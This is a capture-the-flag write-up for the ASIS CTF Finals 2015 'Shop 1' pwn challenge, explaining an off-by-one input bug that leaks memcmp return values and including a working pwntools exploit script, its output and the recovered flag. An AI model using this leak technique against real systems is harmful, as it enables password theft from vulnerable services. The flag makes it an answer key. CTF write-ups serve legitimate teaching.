 ```yaml
---
title: "ASIS CTF Finals 2015 - Shop 1 (Pwn)"
header:
  overlay_image: /assets/images/asisfinals2015/shop1/header.png
  overlay_filter: 0.5
tags:
  - asisfinals2015
  - writeup
  - pwn
---
```


An off-by-one error allows an attacker to leak return codes from `memcmp` to
determine the difference in the supplied byte and the compared byte to leak the
flag byte by byte.

## Challenge Description

#### Points

100

#### Solves

34

#### Description

```
Our marvelous Bragisdumus shop just opened. Come and see our beautiful
Bragisdumus!

Login as an admin! get the admin password.

nc 185.106.120.220 1337
```

## Solution

On untarring the tarball, we get two files:

```shell
$ tar xvf bragisdumu-shop_349e3e948bc6b9794e2a7e28b979964e.tar.xz
bragisdumu-shop/
bragisdumu-shop/bragisdumu-shop
bragisdumu-shop/libc-2.19.so
$ file *
bragisdumu-shop: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=9dcbe489923351533513230b356baa91c997c73a, stripped
libc-2.19.so:    ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), BuildID[sha1]=30c94dc66a1fe95180c3d68d2b89e576d5ae213c, for GNU/Linux 2.6.24, stripped
```

An elf binary and the libc shared object the server is using. Let's run the
program:

```shell
$ ./bragisdumu-shop
The Official Bragisdumus Shop
  (guest password: guest)

Username: guest
Password: guest

Logged in as guest

Menu:
  1) list bragisdumus
  2) order a bragisdumu
  3) view my order
  4) add new bragisdumu (admin only)
  5) remove bragisdumu (admin only)
  8) logout
  9) exit
Choose: 9
```

If we look at the disassembly, there is also actually an admin account. The
password is stored in an adminpass.txt.

![1]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/shop1/1.png){: .align-center}

```shell
$ echo -n password > adminpass.txt
$ ./bragisdumu-shop
The Official Bragisdumus Shop
  (guest password: guest)

Username: admin
Password: blah
Unknown username or password!

Username: admin
Password: password

Logged in as admin

Menu:
  1) list bragisdumus
  2) order a bragisdumu
  3) view my order
  4) add new bragisdumu (admin only)
  5) remove bragisdumu (admin only)
  8) logout
  9) exit
Choose:
```

Now, the objective of this challenge is to log in as admin. So there must be
some sort of information leak vulnerability to exploit in order to retrieve the
password. There is a problem with the input reading here:

![2]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/shop1/2.png){: .align-center}

In fact, there is a subtle off by one error in our `read_input` function (names
mine). This means that we can chop off the null byte at the end of the buffer
holding the username and the buffer holding the password. Now, if we do some
dynamic analysis, we can take a look at memory just right after the comparison
takes place.

![3]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/shop1/3.png){: .align-center}

Now, notice that the return value of memcmp is negative. This means that the
first character that didn't match is lexicographically smaller. Now, we can use
our off by one vulnerability from above to leak this value. What we need to do
is trigger the write of the memcmp value to $rbp-0x10 first, then login with
guest with the off-by-one overwrite.

An illustration:

![4]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/shop1/4.png){: .align-center}

As you can observe, there is some leakage of the stack at the end. The first
four bytes leaked is our return value from memcmp. We can exploit this by
choosing a fixed character to test and then adding the negation of the return
code to get that character in that position!

Here is our exploit script:

```python
from pwn import *
import ctypes
#context.log_level = "debug"

def main():
    #shop = process("./bragisdumu-shop")
    shop = remote("185.106.120.220", 1337)
    known = ""
    while True:
        send_admin(shop, known)
        result = send_guest(shop)
        if "admin" in result:
            break
        offset = parse_guest(shop, result)
        found = chr(33 + (-1*offset))
        print "Found character: %s" % found
        known += found
        logout(shop)
    print "Here's the flag: %s" % known

def send_admin(shop, known):
    shop.sendline("admin")
    shop.sendline(known + "!")

def send_guest(shop):
    shop.sendline("guestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
    shop.sendline("guestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
    return shop.recvline_startswith("Logged in as")

def parse_guest(shop, data):
    interesting = data[109:109+4]
    return ctypes.c_int32(u32(interesting)).value

def logout(shop):
    shop.sendline("8")

if __name__ == "__main__":
    main()
```

Running the script:

```shell
$ python exploit.py
[+] Opening connection to 185.106.120.220 on port 1337: Done
Found character: A
Found character: S
Found character: I
Found character: S
Found character: {
Found character: 3
Found character: 0
Found character: 4
Found character: b
Found character: 0
Found character: f
Found character: 1
Found character: 6
Found character: e
Found character: b
Found character: 4
Found character: 3
Found character: 0
Found character: 3
Found character: 9
Found character: 1
Found character: c
Found character: 6
Found character: c
Found character: 8
Found character: 6
Found character: a
Found character: b
Found character: 0
Found character: f
Found character: 3
Found character: 2
Found character: 9
Found character: 4
Found character: 2
Found character: 1
Found character: 1
Found character: }
Here's the flag: ASIS{304b0f16eb430391c6c86ab0f3294211}
[*] Closed connection to 185.106.120.220 port 1337
```

Flag: **ASIS{304b0f16eb430391c6c86ab0f3294211}**
